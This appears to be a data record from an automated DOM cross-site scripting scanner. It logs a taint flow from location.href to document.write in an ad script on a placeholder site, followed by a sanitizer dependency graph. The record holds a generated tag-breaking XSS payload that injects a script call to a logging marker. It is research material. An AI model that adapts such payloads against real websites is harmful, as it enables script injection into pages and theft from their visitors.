 // Finding: 992c338a-1ee6-4031-9ed2-8e1650e84c83
// Finding.url: https://www.example134.com/topic/Medicine
// Finding.parentloc: https://www.example134.com/topic/Medicine##'></iframe></style></script></object></embed></textarea><script>taintfoxLog('35db14817997437086f425acf0c74824')</script><!--/*
// Finding.domain: www.example134.com
// Finding.base_domain: example134.com
// Finding.source: location.href
// Finding.sink: document.write
// Sanitizer.score: 1
// Sanitizer.name: SekindoClientDetections_URL/this.setInfo
// Sanitizer.location: https://live.example5.com/live/liveView.php?s=100544&cbuster=1435805594&pubUrl=https://www.example134.com/topic/Medicine%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%2735db14817997437086f425acf0c74824%27)%3C/script%3E%3C!--/*&x=400&y=291&vp_content=plembed1554ylhknguw&vp_template=6311&subId=[SUBID_ENCODED] - SekindoClientDetections_URL/this.setInfo:621:7
// Finding.begin: 485
// Finding.end: 662
// Finding.original_uuid: 6e07c9a5-011f-486d-9205-f1793736ad6c
// Finding.TwentyFiveMillionFlowsId: -1091574581
// Finding.script: https://live.example5.com/live/liveView.php?s=100544&cbuster=1435805594&pubUrl=https://www.example134.com/topic/Medicine%23%23%27%3E%3C/iframe%3E%3C/style%3E%3C/script%3E%3C/object%3E%3C/embed%3E%3C/textarea%3E%3Cscript%3EtaintfoxLog(%2735db14817997437086f425acf0c74824%27)%3C/script%3E%3C!--/*&x=400&y=291&vp_content=plembed1554ylhknguw&vp_template=6311&subId=[SUBID_ENCODED]
// Finding.line: 920
// Exploit.uuid: 35db1481-7997-4370-86f4-25acf0c74824
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: src
// Exploit.quote_type: '
// Exploit.tag: script
// Exploit.break_out: #'></iframe></style></script></object></embed></textarea><script>
// Exploit.break_in: </script><!--/*
// Exploit.payload: #'></iframe></style></script></object></embed></textarea><script>taintfoxLog(1)</script><!--/*
// Exploit.begin_taint_url: 0
// Exploit.end_taint_url: 43
// Exploit.replace_begin_url: 43
// Exploit.replace_end_url: 43
// Exploit.replace_begin_param: 302
// Exploit.replace_end_param: 302
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: -320540900
// DepGraph.sanitizer_hash: -321591974

digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="encodeURIComponent"];
n2 [shape=box, label="Var: x"];
n3 [shape=ellipse, label="."];
n4 [shape=box, label="Lit: &pubUrlAuto="];
n5 [shape=ellipse, label="."];
n6 [shape=box, label="Lit: https://live.example5.com/live/liveView.php?s=100544&cbuster=14....nguw&vp_template=6311&subId=[SUBID_ENCODED]&cbuster=1619970006"];
n7 [shape=ellipse, label="str_replace_once"];
n8 [shape=box, label="Lit: SEKXLEN"];
n9 [shape=box, label="Lit: 400"];
n10 [shape=box, label="Var: x"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="Lit: SEKYLEN"];
n13 [shape=box, label="Lit: 291"];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="Lit: '"];
n17 [shape=box, label="Lit: %27"];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="str_replace_once"];
n20 [shape=box, label="Lit: /liveView.php"];
n21 [shape=box, label="Lit: /prebid-ads.php"];
n22 [shape=box, label="Var: x"];
n23 [shape=ellipse, label="."];
n24 [shape=box, label="Lit: &csuuid=608ec7d679672"];
n25 [shape=ellipse, label="."];
n26 [shape=box, label="Lit: &videoType=normal"];
n27 [shape=box, label="Var: x"];
n28 [shape=doubleoctagon, label="Return: x"];
n2 -> n0;
n1 -> n2;
n3 -> n4;
n3 -> n1;
n5 -> n6;
n5 -> n3;
n10 -> n5;
n7 -> n8;
n7 -> n9;
n7 -> n10;
n14 -> n7;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n22 -> n15;
n19 -> n20;
n19 -> n21;
n19 -> n22;
n23 -> n19;
n23 -> n24;
n25 -> n23;
n25 -> n26;
n27 -> n25;
n28 -> n27;
}